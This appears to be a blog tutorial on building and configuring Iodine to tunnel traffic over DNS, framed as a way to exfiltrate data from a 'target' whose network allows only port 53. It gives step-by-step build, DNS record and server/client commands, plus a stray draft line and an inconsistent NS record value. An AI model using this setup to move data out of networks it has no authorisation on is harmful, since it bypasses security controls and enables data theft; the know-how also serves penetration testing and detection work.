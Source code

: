 ```yaml
---
title: "Configuring Iodine"
date: 2021-05-19T10:08:56-08:00
draft: false
tags: 
- oob
- dns
- exfiltration
---
```



## Introduction
What is Iodine? Rather than defining it, let's start with an example. Let's say you have physical access to a box and you desperately need to exfiltrate some data. However, you quickly discover that you cannot connect outbound on any port except 53. Basic protocol checks prevent you from simply configuring an FTP server on port 53 of your cloud server. And to throw another wrench into the gears, it seems like they have locked you into a set of standard public DNS servers anyway. How will you get any data out through just DNS destined for Google or Cloudflare servers? This is where Iodine comes in. (Some have also noted Iodine's usefulness in getting free wifi on planes and in hotels but we are not doing this)

Iodine provides a DNS tunnel on which other protocols such as HTTP or FTP can piggy back, allowing us to upload files with just access to public DNS servers. For more information on how non-DNS data may be carried over DNS, see our previous 
{{<preview-link "https://svl.sh/oob-dns/" blogeronito>}} on out-of-band DNS. testeteer ffwwon get this to the end of the page {{<preview-link "/2019/03/05/emoji-support/" emoji_page>}}

## What you need
- A domain. Grab one off Namecheap or Godaddy, to name a couple domain name registrars.
- A server to receive the DNS requests. A cloud server or virtual private server ("VPS") will be easiest, since it already has a public address and we won't need to port forward anything.
- A target. Probably one that has some painful networking restrictions.


## Step 1: Set up your server
First, create an Ubuntu server on your VPS provider of choice. On that server:
- Make sure you disable any conflicting DNS services on port 53. See other blogs on Linux sysadmin basics for more information on the command to use. Most likely, the following command will work:
```bash
systemctl stop systemd-resolved
```
You can also run `apt update` and `apt upgrade` as needed. This should not be an issue because you just made the VPS, and it should be a relatively new image. But it is good practice and may fix problems with outdated packages.

Let's compile and install the server binary (both the client and server binary are the same, just run with different arguments and flags).
First, clone the repository to your system.
```bash
git clone https://github.com/yarrick/iodine.git
```
Once the iodine repo is in your current directory, enter the directory with:
```bash
cd iodine
```
Ensure that you have the libz-dev installed. This library, used for data compression, is necessary for the compilation process (transporting data over DNS means that data compression is going to play a big role in maximizing throughput). Install the package using:
```bash
apt install libz-dev
```
Now we compile the app using:
```bash
make
```
And now install it (installing in general is moving files to the right locations for execution; here, we just move the compiled binary to a directory in the path). Use the command:
```bash
make install
```

##  Step 2: Configure your DNS entries
Next we need to ensure that DNS requests can reach our server. 
Our first entry will be to give our "DNS" server an FQDN. Go to your domain registrar's website and open the DNS settings for the domain you want to use.

We will start by adding an A record that will point to the IP of your hosted server. The entry should look something like the following, depending on your registrar's web site:
|Type |Host |Value | TTL |
|A Record | ns | IP Address | Auto |
An A record is one of the simplest types of records, and it determines what IP to direct traffic to when a certain hostname is requested. In this example, let's say you bought `testeroni.com`. The above record will direct any traffic destined for `ns.testeroni.com` to the IP address you specify. If you wanted another host on this domain, you can give it another name like `computer1` and it would be reachable on `computer1.testeroni.com`.

Now to get DNS traffic to our `ns.testeroni.com` host, we need to configure it to be the resolver for a subdomain we setup. For example, our subdomain can be called `s.testeroni.com`, any requests to resolve `[somehost].s.testeroni.com` will go to a specified name server. In this case, we will sit it to `ns.testeroni.com`.
|Type |Host |Value | TTL |
|NS Record | s | ns.potato.monster. | Auto |

Just as a recap, we have a subdomain called `s` of our domain `testeroni.com`. Any host information is specified before `s.testeroni.com`.

## Start up the server
```bash
iodined  -f -c -P [password] 192.168.77.1 s.testeroni.com
```
We will start with the `-f` option to start iodined in the foreground; this is going to help with troubleshooting. `-c` is used for compression, `-P` is to specify the password.
The IP address is the address you want for the *tunnel*. This should be a different subnet than your local network. You use these IPs to communicate between the two hosts through the tunnel. 

## Start the client program
```bash
iodine -f -P [password] s.testeroni.com
```
Here, we start the client program with a similar command, but note the lack of the d for daemon at the end. The client program will attempt to connect to the server using just DNS. Data will be encoded in the host section of the subdomain like so `[data].s.testeroni.com`.

## Test the connection
To test if the tunnel is configured properly, try using the following command from your client (and vice versa):
```bash
ping <tunnel-IP-of-server>
```
Any traffic that you need tunneled through DNS can simply be directed towards the server's tunnel IP. For specific application traffic to be forwarded, configure proxies (see http or SOCKS proxies) that will handle requests using the less restricted server side.

